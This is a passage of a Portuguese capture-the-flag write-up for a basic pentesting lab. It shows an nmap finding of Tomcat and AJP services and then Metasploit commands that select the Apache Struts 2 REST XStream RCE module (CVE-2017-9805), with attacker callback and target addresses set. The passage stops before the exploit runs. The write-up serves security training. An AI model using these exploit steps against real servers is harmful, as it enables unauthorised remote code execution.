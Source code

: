 ```shell
out to me.

Happy hacking!
root@basic2:~# 
```


## **Segundo método** 


## Exploit
Como o arquivo na pasta root diz que tem outros métodos, eu pesquisei sobre.
Créditos [https://umar0x01.sh/post/thm-basic_pentesting/ ](https://umar0x01.sh/post/thm-basic_pentesting/)

Nosso nmap mostrou as portas 8080 e 8009

`8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)`  
`8080/tcp open  http    Apache Tomcat 9.0.7`  

Vamos focar na porta 8009

No dev.txt ele diz algo sobre struts stuff, logo depois diz sobre estar usando REST Version e mais abaixo 2.5.12.

Struts provavelmente se trata do apache struts

vamos buscar por exploits
![Alt text](/assets/img/basicpentest6.png)

Existem alguns exploits no google para o `CVE : 2017-9805` mas tbm existe exploit no metasploit, então vamos usar ele.

```shell
msf6 > search CVE : 2017-9805

Matching Modules
================

   #  Name                                     Disclosure Date  Rank       Check  Description
   -  ----                                     ---------------  ----       -----  -----------
   0  exploit/multi/http/struts2_rest_xstream  2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE

Setando as config do exploit

msf6 exploit(multi/http/struts2_rest_xstream) > set lhost tun0
lhost => 10.6.125.125
msf6 exploit(multi/http/struts2_rest_xstream) > set srv
set srvhost  set srvport  
msf6 exploit(multi/http/struts2_rest_xstream) > set srvhost tun0
srvhost => 10.6.125.125
msf6 exploit(multi/http/struts2_rest_xstream) > set rhosts 10.10.198.47
rhosts => 10.10.198.47
```